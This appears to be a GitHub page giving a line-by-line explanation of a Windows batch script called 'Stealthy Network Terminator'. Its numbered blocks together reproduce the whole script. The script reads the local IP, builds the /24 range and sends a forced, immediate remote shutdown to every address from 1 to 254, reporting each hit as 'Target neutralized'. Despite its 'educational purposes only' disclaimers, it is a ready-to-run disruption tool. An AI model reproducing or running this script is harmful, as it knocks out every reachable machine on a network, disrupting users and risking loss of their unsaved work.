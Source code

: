 








sline-by-line explanation:

```plaintext
1. @echo off
```
- Disables echoing of commands, preventing them from being displayed in the console as they are executed.

```plaintext
2. setlocal enabledelayedexpansion
```
- Enables delayed expansion of variables, allowing the use of `!` syntax to access variable values within loops.

```plaintext
3. REM Stealthy Network Terminator - Developed by FLUFFY
```
- A comment providing information about the script, including its name and developer.

```plaintext
4. REM This script is for educational purposes only. Misuse for malicious intent is illegal.
```
- A comment emphasizing the script's intended use for educational purposes only and warning against misuse.

```plaintext
5. REM FLUFFY presents the Stealthy Network Terminator (SNT), a potent tool for hacking enthusiasts.
6. REM It silently infiltrates your local network, wreaking havoc with a single click.
```
- Comments further describing the purpose of the script, presenting it as a tool for hacking enthusiasts that can silently infiltrate a local network to cause havoc.

```plaintext
7. REM WARNING: Use this tool responsibly and only on networks you own or have explicit permission to test.
```
- A warning emphasizing responsible use of the script and advising against using it on networks without proper authorization.

```plaintext
8. REM Get ready to unleash chaos! Initiating SNT...
```
- A comment indicating that the script is about to begin executing its main functionality.

```plaintext
9. REM Get local IP address
10. for /f "tokens=2 delims=:" %%i in ('ipconfig ^| findstr IPv4') do (
11.     set "local_ip=%%i"
12. )
```
- Retrieves the local IP address of the machine by parsing the output of the `ipconfig` command and storing it in the variable `local_ip`.

```plaintext
13. if "%local_ip%"=="" (
14.     echo Failed to retrieve local IP address. Aborting operation.
15.     exit /b 1
16. )
```
- Checks if the local IP address was successfully retrieved. If not, it displays an error message and exits the script with an error code.

```plaintext
17. REM Extract network range
18. for /f "tokens=1,2,3 delims=." %%a in ("!local_ip!") do (
19.     set "network_range=%%a.%%b.%%c."
20. )
```
- Extracts the network range from the local IP address by splitting it at each period (.) and storing the first three parts in the variable `network_range`.

```plaintext
21. if "%network_range%"=="" (
22.     echo Failed to extract network range. Aborting operation.
23.     exit /b 1
24. )
```
- Checks if the network range was successfully extracted. If not, it displays an error message and exits the script with an error code.

```plaintext
25. REM Initiating shutdown sequence for all devices in the network range
26. echo Stealth mode activated... Engaging the SNT...
```
- Indicates that the script is about to begin shutting down devices on the network and provides some dramatic flair.

```plaintext
27. set "error_count=0"
```
- Initializes a variable `error_count` to keep track of any errors encountered during the shutdown process.

```plaintext
28. for /L %%i in (1,1,254) do (
29.     set "ip=!network_range!%%i"
30.     shutdown /s /f /t 0 /m \\!ip! >nul 2>&1
31.     if errorlevel 1 (
32.         echo Failed to send shutdown command to !ip!... Evading detection.
33.         set /a "error_count+=1"
34.     ) else (
35.         echo Shutdown command sent to !ip!... Target neutralized.
36.     )
37. )
```
- Loops through all IP addresses in the network range (from 1 to 254), constructs each IP address, and sends a shutdown command to it using the `shutdown` command. It also checks if the command was successful and updates the `error_count` variable accordingly.

```plaintext
38. echo.
```
- Outputs a blank line for better readability in the console.

```plaintext
39. if %error_count% gtr 0 (
40.     echo %error_count% devices failed to shut down... Potential resistance detected.
41. ) else (
42.     echo All devices in the network range have received shutdown command... Network domination achieved!
43. )
```
- Checks if any devices failed to shut down. If so, it displays the number of failures. Otherwise, it indicates that all devices have received the shutdown command successfully.

```plaintext
44. echo Terminating SNT... Exit stealth mode and return to the shadows.
45. pause
```
- Provides a closing message and pauses the script execution to allow the user to view the output before closing the console window.
